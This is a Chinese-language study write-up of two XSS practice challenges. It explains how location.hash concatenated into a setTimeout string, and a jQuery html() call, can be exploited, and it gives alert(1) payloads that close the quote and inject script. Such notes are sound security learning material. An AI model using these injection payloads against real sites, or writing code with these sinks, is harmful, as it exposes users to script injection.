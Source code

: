 ## 参考

- [一些BAT的XSS实例（一）](https://mp.weixin.qq.com/s/Nxjn_SUAfrB-K5z6YdlW8g)

### http://px1624.sinaapp.com/test/xsstest1/

```html
<script type="text/javascript">
var x=location.hash;
function aa(x){};
setTimeout("aa('"+x+"')",100);
</script>
Give me xss bypass 1~
```

利用js函数的性质：
```js
function myFunction(p1, p2) {
    return p1 * p2;              // 该函数返回 p1 和 p2 的乘积
}

// 普通的计算乘积
myFunction(2,3)
6
// 执行任意js代码
myFunction(2,alert(77),3)
NaN
```

所以这里令x="#',alert(1),'"
即可拼接出：
```
setTimeout("aa('#',alert(1),'')",100);
```
参考setTimeout用法：
```
setTimeout("alert('对不起, 要你久候')", 3000 )
```
参考：https://www.runoob.com/w3cnote/javascript-settimeout-usage.html

准确地，
```
aa('#',alert(1),'')
```
本来aa函数期待1个参数，也可以通过闭合单引号传入三个参数。
或者
```
');alert(1)//
```
闭合前面的单引号和括号，然后执行任意js，然后使用//注释掉后面的代码。

### http://px1624.sinaapp.com/test/xsstest2/

```js
$("#xx")["html"]($("#xx")["text"]());
```
其中
```
$("#xx")["html"]()
```
相当于
```
$("#xx").html()
```
而$("#xx")["text"]()相当于$("#xx").text()

于是

```js
$("#xx")["html"]("<img src=x onerror=alert(1)>")
```
就相当于
```js
$("#xx").html("<img src=x onerror=alert(1)>")
```

其中的知识点为：
> text();设置或者获取所选元素的文本内容；
html();设置或者获取所选元素的内容（包括html标记）；

参考：https://www.cnblogs.com/fozero/p/5916878.html
当函数传参时，表示设置；当函数参数为空时，表示选取。


